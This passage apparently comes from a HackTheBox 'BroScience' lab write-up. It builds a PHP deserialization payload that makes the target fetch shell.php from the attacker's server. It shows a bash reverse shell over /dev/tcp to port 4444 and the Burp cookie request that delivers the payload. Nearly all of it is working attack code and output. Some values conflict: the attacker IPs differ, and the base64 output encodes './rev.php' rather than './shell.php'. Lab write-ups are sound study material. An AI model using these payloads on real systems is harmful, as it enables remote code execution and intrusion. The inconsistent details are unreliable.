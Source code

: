To generate our payload, we need to create our own version of the `Avatar` class that contains the payload with the reverse shell that will be stored on the server.

```php
 $ cat avatar.php        
<?php
class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp = "http://10.10.14.19/shell.php";
    public $imgPath = "./shell.php"; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

$serialized = base64_encode(serialize(new AvatarInterface));
echo $serialized
?>
$ php avatar.php        
TzoxNToiQXZhdGFySW50ZXJmYWNlIjoyOntzOjM6InRtcCI7czoyODoiaHR0cDovLzEwLjEwLjE0LjE5L3NoZWxsLnBocCI7czo3OiJpbWdQYXRoIjtzOjk6Ii4vcmV2LnBocCI7fQ== 
```

Create a `shell.php` file in your current working directory and start a http server, that will be called once we will send our request with the malicious payload.

```bash
$ cat shell.php
<?php
  system("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.161/4444 0>&1'");
?>
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.195 - - [07/Apr/2023 13:24:39] "GET /shell.php HTTP/1.0" 200 -

```

Change the theme and catch the request in burp. We need to URL encode this value before sending it through the `GET` request.
```
GET /swap_theme.php HTTP/1.1
Host: broscience.htb
Cookie: PHPSESSID=pvaju0mj9orufo4cmpemh2eaa5; user-prefs=Tzo5OiJVc2VyUHJlZnMiOjE6e3M6NToidGhlbWUiO3M6NToibGlnaHQiO30%253DTzoxNToiQXZhdGFySW50ZXJmYWNlIjoyOntzOjM6InRtcCI7czoyODoiaHR0cDovLzEwLjEwLjE0LjE5L3NoZWxsLnBocCI7czo3OiJpbWdQYXRoIjtzOjExOiIuL3NoZWxsLnBocCI7fQ%3d%3d
User-Agent: XXX
...
Connection: close
```

